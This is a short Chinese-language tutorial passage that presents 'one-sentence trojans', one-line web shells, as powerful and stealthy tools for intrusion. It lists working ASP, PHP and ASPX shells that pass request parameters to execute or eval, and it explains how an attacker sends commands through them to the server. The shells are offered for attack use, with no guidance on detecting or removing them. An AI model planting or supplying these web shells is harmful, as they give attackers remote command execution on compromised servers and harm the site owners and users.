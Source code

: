 一句话木马短小精悍，而且功能强大，隐蔽性非常好，在入侵中始终扮演着强大的作用。

常用一句话木马
asp一句话木马：
　　`<%execute(request(“value”))%>`
　　php一句话木马：
　　` <?php @eval($_POST[value]);?>`
　　aspx一句话木马：
    `<%@ Page Language=“Jscript”%>`
　　`<%eval(Request.Item[“value”])%>`

把需要执行的php脚本片段，通过密码pass参数传给服务器端，服务器通过eval函数进行执行。
可以看出，一句话木马的本质是PHP,ASP(ASPX)语言具有eval函数，使之具有了动态性，基于动态性，攻击者就可以把命令传给服务器端的一句话木马进行执行。
